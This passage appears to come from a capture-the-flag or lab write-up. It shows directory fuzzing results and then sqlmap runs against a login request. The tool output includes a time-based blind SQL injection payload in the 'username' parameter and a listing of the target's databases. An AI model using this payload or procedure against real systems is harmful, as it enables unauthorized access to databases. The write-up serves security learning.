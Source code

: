 ```shell
report                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 36ms]
uploads                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 38ms]
user                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 39ms]

```

i got a few hits with directory fuzzing but i found nothing helpful for now.

### sqlmap
then i saved the login request with *burpsuite* to use it with *sqlmap* like this.

```shell
$ sqlmap -r login.request

[08:11:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[08:11:32] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[08:11:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[08:11:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[08:11:39] [INFO] target URL appears to be UNION injectable with 10 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[08:11:46] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[08:11:46] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 158 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=user' AND (SELECT 9965 FROM (SELECT(SLEEP(5)))DnOj) AND 'bjhL'='bjhL&password=pass
---
[08:12:04] [INFO] the back-end DBMS is MySQL
```

and *sqlmap* found a time-based SQL injection.

```shell
$ sqlmap -r login.request --dbs

available databases [2]:
[*] gallery_db
[*] information_schema
```

two databases where found.
